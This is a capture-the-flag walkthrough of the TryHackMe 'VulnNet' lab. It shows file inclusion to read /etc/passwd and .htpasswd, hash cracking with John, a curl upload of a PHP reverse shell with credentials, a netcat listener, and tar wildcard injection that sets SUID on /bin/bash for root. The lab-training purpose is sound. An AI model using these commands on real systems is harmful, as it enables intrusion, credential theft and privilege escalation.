








# Room: VulnNet #
**link:** <https://tryhackme.com/room/vulnnet1>  
**Difficulty:** Medium

---
## Description ##
The VulnNet series of rooms on TryHackMe simulates corporate network environments belonging to a fictional company named VulnNet Inc..

---
## Objectives ##
- Objective 1 : find user flag
- Objective 2 : gain root access and find root flag
---
## Skills / Tools Practiced ###
**Skills:** enumeration, web exploitation, privilege escalation, etc.  
**Tools:** nmap, Burpsuite, JohnTheRipper, curl, NetCat, etc.

---
## Requirements ## 
Before Starting add these two lines in your attacker machine's /etc/hosts file.
```bash
Victim's ip   vulnnet.thm
Victim's ip   broadcast.vulnnet.thm
```

---
## Steps for penetrating Machine ##

### 1. Ports & Network Scanning ###
- We'll use Nmap for scanning the network of target's network.
```bash
nmap -p1-1000 -T5  -sV TargetIP

```


- There are 2 open ports. Port 22 is used for SSH, and port 80 serves a web server.
- We start by enumerating the web server. Browsing to http://vulnnet.thm/ we find the page.

### 2. web server reconnaissance ###
- Opening webserver on browser.
- Viewing its source code.


  
- We got 2 javascript files at last.
- We tried to find some important information using some keywords like (password, secret, token, api, etc) but got nothing. 
-In first JS file, we got `http://broadcast.vulnnet.thm` This gives us the login option before we can see the page.
- In second Javascript file, we got `http://vulnnet.thm/index.php?referer=`
- Note here referer parameter is empty!

### 3. use Burpsuite to abuse the referer parameter & try to perform file inclusion. ###

- open BurpSuite.
- Set manual proxy.
- Turn on intercept.
- Refresh page.
- get request.
  

- send request to repeater.
- add
```bash
  (referer = /etc/passwd)
```
 after GET /index.php?
- look for exposed contents of /etc/passwd
- we get usernames but not passwd hash.
- add
  ```bash
  /etc/apache2/sites-enabled/000-default.conf
  ```
  
  and send request again.
- We got Auth User file located at `/etc/apache2/.htpasswd`
- We get password hash using the location.
- save the password hash in txt file named hash.txt.

### 4. Using John to crack password hash ###

- use command :
  ```bash
  john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt
  john --show hash.txt
  ```
  

- We got our password which we can use to login in page which we got from our 1st Javascript file.

### 5. Login using credintials ###

- login to `http://broadcast.vulnnet.thm/` using the credintials we found.
- After login we see clipbucket page as shown below.


- After seeing source code of page, we found the clipbucket version.


### 6. Search for clip bucket version exploit###

- Search for clipbucket version exploit on google.
- By doing some recon about clipbucket v4.0, we got that arbitary file can be uploaded which is vulneriblity.


- before uploading payload, edit the ip address and port number of  php-reverse-shell.php file. 
- use command for arbitary file upload :
```bash
curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:9972761drmfsls
```
- you have successfully uploaded your payload in server.
### 7. Locating directory ###
- now you have to locate the directory where you have uploaded your payload.
- use dirsearch.
- Browse to http://broadcast.vulnnet.thm/files/ to find a directory listing. Your shell resides within the photos directory. Inside this directory is a directory with the current date.

### 8. Gaining access to machine ###

- Start netcat listner using command :
  ```bash
  nc -lvnp 1234
  ```
- Execute the payload which you've uploaded earlier.
- You got the shell.
  

- to get access of proper shell use following command:
```bash
 python3 -c "import pty;pty.spawn('bin/bash')"
 ```
- You finally got your proper shell!

### 9. To get userflag ###
- perform following commands in shell.
  ```bash
  cd var
  cd backups
  cp * /tmp
   ```
- One file is copied (i.e. ssh-backup.tar.gz)
- extract it.
```bash
tar xvf ssh-backup.tar.gz
```
- We get one file named id_rsa.
- It's a ssh key.
- Use john to get passphrase of key.
  

- using passphrase login as server-management user using SSH.
#### Here we got our userflag! ####

### 10. To get Root flag ###
- try to get root access to machine.
- Open cron tab:
  ```bash
  cat /etc/crontab
  ```
- There is a script running every two minutes.
`*/2   * * * *   root    /var/opt/backupsrv.sh`
- Go to that file
- In this file, we got `backup_files="*"`.
- This is Wild Card!
- An attack vector.
- we can Inject some application or code here to get our root access.
```bash
cd /home/server-management/documents
```
- go there
`server-management@vulnnet:~$ cd /home/server-management/Documents
server-management@vulnnet:~/Documents$ ls
'Daily Job Progress Report Format.pdf'  'Employee Search Progress Report.pdf'
server-management@vulnnet:~/Documents$ `
- there is a file named Employee Search Progress Report.pdf which is backuped every 2 minutes.
- To exploit the vulnerability we first need to create a script that will get executed when the cron job run. I created a script called shell.sh that will cause bash binary to have a SUID bit which in turn can be executed using -p flag to drop us to a root shell.
- ```bash
  echo "chmod 4755 /bin/bash" > shell.sh
  ```
- Create 2 files:
  ```bash
  echo "" > "--checkpoint-action=exec=sh shell.sh"
  echo "" > --checkpoint=1
   ls -la /bin/bash
  bash -p
  ```
  you will get root access!
  get the root flag using : 
  ```bash
  ls -la
  cat root.txt
  ```
  #### Here we got our root flag!####
  
